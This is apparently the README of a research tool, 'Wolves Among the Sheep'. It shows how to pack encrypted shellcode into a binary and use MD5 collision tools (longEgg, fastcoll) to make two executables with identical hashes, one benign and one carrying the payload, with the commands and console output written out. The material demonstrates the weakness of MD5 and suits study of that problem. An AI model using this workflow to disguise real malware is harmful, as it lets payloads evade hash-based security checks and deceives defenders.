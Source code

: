 Wolves Among the Sheep
======================

Poisoning security tools that use obsolate crypto.

Dependencies
------------

* Visual Studio 2012 to compile the projects (Express will do)
* PHP (CLI) to run [longEgg](https://github.com/natmchugh/longEgg) (referenced as submodule)
* [Fastcoll](https://www.win.tue.nl/hashclash/) for collisions

Usage
-----

Extract `fastcoll` to the `fastcoll` directory.

Use `shepherd.bat` to generate the appropriate header file with the encrypted shellcode:

```
> shepherd.bat YOURPASSWORD your_shellcode.raw
```

Run `long\_egg.php` in its own directory - this way it will find `sheep.exe` copyed next to it by the batch file (with the name `demo` that is currently hardwired in longEgg).

Feed the resulting hash to `fastcoll` in the way showed below (don't change CWD, output should be named `a` and `b`).
This will create two files `a` and `b` that will be consumed by `long\_egg.php` when it's executed again.

```
X:\path\sheep\> shepherd.bat YOURPASSWORD msgbox.raw
[... build output ...]

X:\path\sheep\> cd long_egg

X:\path\sheep\long_egg> php long_egg.php
I want to replace 128 bytes at position 48448 in X:\path\sheep\long_egg\demo
48448
Chainring variable up to that point is deadbabedeadbabedeadbabedeadbabe
Run fastcoll to generate a 2 block collision in MD5

X:\path\sheep\long_egg> ..\fastcoll\fastcoll.exe -i deadbabedeadbabedeadbabedeadbabe -o a b
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: 'a' and 'b'
Using initial value: deadbabedeadbabedeadbabedeadbabe

Generating first block: ....................
Generating second block: S10.................
Running time: 1.337 s

X:\path\sheep\long_egg> php long_egg.php
I want to replace 128 bytes at position 48448 in X:\path\sheep\long_egg\demo
48448
Chainring variable up to that point is deadbabedeadbabedeadbabedeadbabe
Just output new file /home/b/tools/md5/sheep/long_egg/devil with hash deadbeefdeadbeefdeadbeefdeadbeef
Just output new file /home/b/tools/md5/sheep/long_egg/angel with hash deadbeefdeadbeefdeadbeefdeadbeef
```

After this step you should have your two colliding binaries (`angel` and `devil`).

For more information see the [tutorial of Nate McHugh](http://natmchugh.blogspot.co.uk/2015/05/how-to-make-two-binaries-with-same-md5.html):

References
----------

* [Poisonous MD5 - Wolves Among the Sheep](#TODO)
* [How to make two binaries with same MD5](http://natmchugh.blogspot.co.uk/2015/05/how-to-make-two-binaries-with-same-md5.html)
* [Stop using MD5 now!](#TODO)

Tips and Tricks
---------------

MD5.php of longEgg uses PHP 5.4 syntax for declaring arrays. If you're using an older version you should replace `[x, y, z]` declarations to `array(x, y, z)`.

TODO
----

* Improve longEgg to accept parameters

